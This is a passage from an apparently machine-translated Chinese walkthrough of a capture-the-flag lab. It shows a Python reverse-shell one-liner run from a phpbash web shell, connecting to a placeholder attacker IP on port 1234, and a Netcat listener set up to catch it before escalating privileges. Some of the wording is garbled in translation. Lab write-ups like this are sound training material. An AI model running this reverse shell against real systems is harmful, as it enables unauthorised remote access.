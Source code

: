 ```
cat user.txt
```

![Screenshot-2021-02-01-at-22.37.13](img/be4628c63b6965fe8dd81bf9fc588702.png)

我需要一个合适的外壳来提升权限。在 **phpbash** 窗口中，我运行以下命令:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_MACHINE_IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

我在端口 ****1234**** 上设置了一个 ****Netcat**** 监听器来捕获反向 shell 连接。

> Ncat 是一个功能丰富的网络实用程序，可以从命令行通过网络读写数据。Ncat 是为 Nmap 项目编写的，是对古老的 [Netcat](http://sectools.org/tool/netcat/) 的一个改进。它使用 TCP 和 UDP 进行通信，旨在成为一个可靠的后端工具，为其他应用程序和用户即时提供网络连接。

你可以在这里了解更多关于 Netcat [的信息。](https://nmap.org/book/ncat-man.html)

```
nc -nvlp 1234
```

![Screenshot-2021-02-01-at-22.58.16](img/c08cf30582c5f1f80dd5b17593893b96.png)

我有一个贝壳，看看我和谁在一起

```
whoami
```

那就跑
